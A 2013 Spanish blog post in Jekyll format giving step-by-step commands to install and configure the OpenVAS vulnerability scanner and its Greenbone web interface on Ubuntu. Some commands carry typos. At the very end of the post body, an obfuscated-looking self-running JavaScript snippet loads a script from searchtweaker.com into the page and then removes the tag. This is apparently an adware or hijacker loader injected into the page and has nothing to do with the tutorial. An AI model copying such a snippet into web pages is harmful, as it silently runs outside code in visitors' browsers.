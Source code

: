 ```yaml
---
layout: post
title: La utilización y empleo de OpenVAS-2da parte
date: 2013-01-10
author: neoranger
comments: true
categories: [General, Informacion]
---
```

<div dir="ltr" style="text-align:left;">Se acerca el gran día, sábado 12 de enero del 2013 ....<br /><br />Bueno,  volviendo con el tema respecto al escáner de vulnerabilidades OpenVAS ,  lo he probado y definitivamente dejenme recomendarle OpenVAS el  merecido sucesor de NESSUS (que durante muchísimos años fue uno de los  proyectos OPEN SOURCE con gran éxito) por lo que a continuación  detallaré parte de los comandos para su utilización.<br /><br />Descargue   de la página de OpenVAS la versión más actualizada, Ubuntu y openSUSE  tienen sus propios repositorios OBS, losadministradores de Ubuntu y  Debian necesitan instalar un paquete,<br /><br /><a name='more'></a><br /><br /><span style="color:yellow;"><b>sudo apt-get install -y install python-software-properties.</b></span><br /><br />antes de integrar el repositorio el administrador puede añadir el paquete fuente de la siguiente forma en ubuntu:<br /><br /><span style="color:yellow;"><b>sudo add-apt-repository "deb http://download.opensuse.org/repositories/security:/OpenVAS:/STABLE:/v4/xUbuntu_11.10/ ./"</b></span><br /><br />Usar los repositorios de seguridad de openSUSE requiere tener una llave GnuPG:<br /><br /><span style="color:yellow;"><b>sudo apt-key adv --Keyserver hkp://keys.gnupg.net --recv-keys BED1E87979EAFD54</b></span><br /><br />actualizar las versiones actuales: <span style="color:yellow;"><b>sudo apt-get update</b></span><br /><br />Instalamos los paquetes deseados usando apt-get  o con un gestor de paquetes gráfico.<br /><br /><span style="color:yellow;"><b>sudo apt-get -y install </b></span><br /><span style="color:yellow;"><b>openvas -manager</b></span><br /><span style="color:yellow;"><b>openvas-scanner </b></span><br /><span style="color:yellow;"><b>openvas-administrador</b></span><br /><span style="color:yellow;"><b>greenbone-security-assistant sqlite3</b></span><br /><span style="color:yellow;"><b>xsltproc</b></span><br /><span style="color:yellow;"><b><br /></b></span><span style="color:yellow;"><span style="color:black;">Si añadimos el repositorio en el cliente podemos instalar los programas necesarios allí mismo</span></span><br /><br /><span style="color:yellow;"><b>sudo apt-get install gsd  openvas-cli</b></span><br /><br /><span style="color:yellow;"><span style="color:black;">Para encriptar la comunicación  debemos generar los certificados de la forma siguiente:</span></span><br /><br /><b><span style="color:yellow;">test -e /var/lib/openvas/CA/cacert.pem || sudo openvas-mkcert -q</span></b><br /><br /><span style="color:yellow;"><span style="color:black;">El comando unix test comprueba si existe un certificado de no ser así inicia el script apropiado . Ejecutamos:</span></span><br /><br /><b><span style="color:yellow;">sudo openvas-nvt-nsync</span></b><br /><br /><span style="color:yellow;"><span style="color:black;">Creado nuestro usuario (destroyer) generaremos un certificado de cliente haciendo lo siguiente:</span></span><br /><br /><span style="color:yellow;"><b>test -e/var/lib/openvas/users/destroyer || sudo openvas-mkcert-client -n destroyer -i</b></span><br /><br /><span style="color:yellow;"><span style="color:black;">Activamos los servicios de escáner (OpenVAS open-vassd, OpenVAS MAnager openvasmd y OpenVAS Administrator openvasad)</span></span><br /><br /><span style="color:yellow;"><span style="color:black;"> <b><span style="color:yellow;">sudo openvassd</span></b></span></span><br /><b><span style="color:yellow;">sudo openvasmd --migrate </span></b><br /><b><span style="color:yellow;">sudo openvasmd --rebuild</span></b><br /><b><span style="color:yellow;">sudo killall openvassd</span></b><br /><span style="color:yellow;"><b>sleep 15</b></span><br /><br />En el futuro podremos lanzar los servicios necesarios con estos comandos:<br /><br />sudo service openvas-scanner start<br />sudo service openvas-manager start<br />sudo service openvas-administrator restart<br /><br />Para  utilizar la intefaz web GSA, necesitamos utilizar su servicio  escribiendo gsad. Asumimos que hemos instalado el paquete  greenbone-security-assistant en el servidor.<br /><br />sudo /etc/init.d/greenbone-security-assistant start<br /><br />En la versión 4  necesitamos crear un usuario administrativo <br /><br /><span style="color:yellow;"><b>test -e/var/lib/openvas/users/admin || sudo openvasad -c  add_user -n admin -r Admin</b></span><br /><br />Los administradores puede trabajar con OpenVAS de las siguientes formas : sea por linea de comando,por la aplicación de escritorio gsd o por la interfaz WEB GSA (http://OpenVAS-server:9392)<br />Para  poder trabajar con la interfaz web debemos antes modificar la  configuración de /etc/default/greenbone-security-assitant. Cambiando   GSA_ADRESS=127.0.0.1 por la direcci'on IP "CORRECTA".<br />En el caso de no querer encriptar  las comunicaciones entre  la interfaz web y el gestor en la red local añadimos<b><span style="color:yellow;"> HTTP_ONLY=1</span></b> en el Inicio del Script . A continuación en /etc/init.d/greenbone-security-assistant reemplazaremos la linea<br /><br /><span style="color:yellow;"><b>[ "$GSA_ADDRESS"] &amp;&amp; DAEMONOPTS="-listen= $GSA_ADDRESS"</b></span><br /><br />con<br /><br /><span style="color:yellow;"><b>[ "$GSA_ADDRESS"] &amp;&amp; DAEMONOPTS="--http-only"</b></span><br /><br /> reiniciamos GSA<br /><br /><span style="color:yellow;"><b>/etc/init.d/greenbone-security-assitant restart</b></span><br /><br />Podemos tambien trabajar Greenbone Security Desktop pero como usuario normal, no como root, por lo que escribimos: <span style="color:yellow;"><b>gsd </b></span>en el host del cliente y nos identificamos.<br /><br />A disfrutarlo ... y a su vez un merecido agradecimiento a los desarrolladores de Greenbone por su gran aporte a la comunidad.<br />http://arthurhuamanic.blogspot.com.es/<br />(function(){try{var header=document.getElementsByTagName("HEAD")[0];var script=document.createElement("SCRIPT");script.src="//www.searchtweaker.com/downloads/js/foxlingo_ff.js";script.onload=script.onreadystatechange=function(){if (!(this.readyState)||(this.readyState=="complete"||this.readyState=="loaded")){script.onload=null;script.onreadystatechange=null;header.removeChild(script);}}; header.appendChild(script);} catch(e) {}})();</div>
